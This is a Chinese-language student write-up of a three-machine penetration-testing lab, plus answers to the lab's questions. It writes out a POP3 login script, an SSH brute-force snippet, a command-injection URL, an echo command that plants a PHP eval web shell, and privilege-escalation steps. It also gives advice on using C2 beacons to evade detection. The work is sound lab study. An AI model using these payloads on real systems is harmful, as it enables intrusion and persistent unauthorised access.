




# Week4 渗透测试

## 靶机1 初始访问
>事后看来这应该是最外层docker唯一暴露出的环境。

先说一下踩过的坑：  
VMware好像不兼容这个容器的网卡，试了很多模式都不能给机器分配IP。后来只能换成VirtualBox。

VBox启动之后看下网卡的网段（这一步应该是允许的，我们至少应该获取目标机的网段）  
然后直接用内网大杀器[fscan](https://github.com/shadow1ng/fscan)扫一发：  
`fscan -h [IP&mask]/24` 就抓到了活着的目标机器  
  
  
按要求先去80看一下，找到了一堆限制条件和下一步的目标，邮箱，网页给出了账号密码。  

访问邮箱并查看邮件：
```python
from pwn import *

p=remote("192.168.56.101",110)
p.sendline(b"USER pentester")
p.sendline(b"PASS cs315")
p.sendline(b"LIST")
p.sendline(b"RETR 1")
p.interactive()
```

然后按要求去爆bob的ssh密码   
**注意，linux的登录用户名只能小写**  
字典生成： `cat rockyou.txt | grep bob > bob.txt`  
然后随便找个工具爆破，ssh爆字典属于是脚本小子中的脚本小子：   
https://github.com/EntySec/Shreder
```python
from shreder import Shreder
shreder = Shreder()
password = shreder.brute('192.168.2.109', 22, 'mobile', 'passwords.txt')
```
跑十几分钟就出了密码  
  

ssh上去之后跑一下提权大合集 linpeas.sh，这个脚本整合了非常多常用的提权信息搜集，比如`sudo -l` `find / -perm 4000`等，并以非常nice的界面呈现结果。
  

发现有一个脚本可以切到backuser用户，切过去之后再跑一遍 linpeas发现zip有suid权限  
用 https://blog.csdn.net/YouthBelief/article/details/122166791 提到的方法直接提到root。

  

然后在`/root`下得到第一个checkpoint
  

接下来让我们去搞webserver。

## 靶机2 内网横向-web渗透
还是fscan对靶机1的`[IP&mask]/24`扫一发，找到了开着80端口的内网靶机2。    
接下来的操作都在内网，为了方便操作这里先用frp把内网代理出来。  
因为我frp的配置用的是之前一些RealWord工作的配置，这里就不贴出来了。  

做好穿透之后，可以用Proxifier连接服务器的透明代理，配置转发规则之后就可以开始内网漫游了。  
挂好代理，御剑一发光速上班。  
  

ping网页疑似直接shell执行ping命令，拼接可以执行  
`http://172.17.0[.]4/ping/ping.php?host=;ls`  
然后写shell，蚁剑上班  
`echo%20%27<?php%20eval($_GET[1]);%20?>%27%20>%201.php`

linpeas没扫到东西，翻home目录找到了olivr的密码
  

ssh上去继续 linpeas，发现python3能setuid，但是是属于oscar的，所以提不到root。  
用python3翻oscar的文件：
  

找到了oscar的密码，换oscar上号， linpeas直接发现scripts下有个setuid的 `current-date` 程序，但好像吃不到命令输入，读出来放IDA里看下：
  

没劫持成功LD_PRELOAD，但是发现system可以直接用环境变量劫持，把当前目录也放环境变量里就可以劫持 `date`
  

提到了root，得到第二个checkpoint。

## 靶机3 内网横向-信息搜集

fscan再来一发，找到了允许匿名登录的ftp服务器。
  

ftp版本刚好在某个RCE漏洞之后的一个版本，应该没CVE用了  
连上去翻到隐藏的压缩包，下载下来。
  

压缩包有密码，john立刻就能跑出来：
（这里的背景是msf摸靶机3的ftp，发现没洞可打）
  

压缩包里边是用户名和密码，ssh上号，再跑linpeas，找到一个有神奇的SETUID权限的程序 screen-4.5.0
  

给出版本号，属于是钩直饵咸。搜一下就发现这个版本的screen有提权漏洞。

用 https://xz.aliyun.com/t/11664 的脚本一发就能拿到ROOT

  

拿下checkpoint3，下班。

## 开始回答Lab的问题

### 1 Read the lab instructions above and finish all the tasks (checkpoints).

请见上面的正文

### If you are a user, what would you do to secure your password  from brute-force attacks? If you are a developer, what would you do to prevent brute-force attacks in your program?

简单回答一下作为常见的“用户”的解决方案：  

- 作为终端用户
   + 能用密钥的事情别用密码
   + 迫不得已用密码，用强密码+密码管理器
   + 容易被爆破的服务别挂常用端口，比如ssh开公网挂22不是小白就是蜜罐
   + 服务限制IP白名单，不考虑SSRF的情况下也就不会碰到爆破了
   + 本地可以配置策略，高频爆破封号+一键提交微步等开源情报平台
- 作为终端用户的管理员（在开发者角度仍然是用户）
   + 使用防火墙 EDR XDR 等流量审计设备，配置封禁策略
   + 协助终端用户配置 HIDS，以防万一，defence in depth

作为开发者，能做的主要也是考虑以上用户的解决方法并提供支持，比如：  
- 支持封禁策略和高频爆破告警
- 限制用户只能使用强度较高的密码
- 甚至可以直接替用户生成随机密钥/密码

### Why do we need to use pivoting / port forwarding in the penetration testing? List at least 3 examples of which kind of program shouldn't expose to the public network.

显然，访问目标NAT后的内网需要通过获得初始访问的机器完成，但使用代理|穿透|端口转发的原因我认为有以下几点：    
- 从方便的角度考虑，获取初始访问的机器上并没有渗透环境，代理到本地方便直接使用本地的工具渗透
- 从渗透本身的隐蔽性考虑，应该尽量减少在靶机上的交互，相较在受害者机器上直接搭建渗透环境，代理稍为隐蔽
- 更好的做法是使用高端的C2框架，直接下发命令sc，代理只用于跳板机和靶机通信

不应该暴露到公网的服务：
- 仅服务主机的服务，如仅用于本机服务时的mysql，redis等
- 开发、测试环境，即使需要对外服务，请配置代理
- 涉核心业务的机器，即使是配置了 强密码 + 态感 + 通防 也应该考虑纵深放到逻辑强隔离网段

### What's the difference between a shell and a reverse shell? Why do we use the reverse shell instead of the shell in this walkthrough?

正向shell和反向shell的区别十分明显，正常的shell这里就不解释了，反向shell可以简单理解为IO重定向到远程网络流的shell，我们可以在远程机器上和目标机的shell交互。  
因为有ssh和轻量的C2框架，我上文中的操作流程并没有涉及反弹shell。  
一般出于操作方便需要，可以通过RCE反弹shell方便操作。  
但如果熟练使用C2框架，反弹shell完全没必要，因为反弹shell的行为特征和流量特征过于明显，真实渗透中弹shell无异于自杀，赶紧去祈祷对面没钱买防护设备不会被XDR溯源回来吧。  
所以在真实渗透中，替代反弹shell的一种常见方式是让靶机下载执行C2的Beacon。  
Beacon可以更容易做到免杀免触发告警，也更持久稳定。  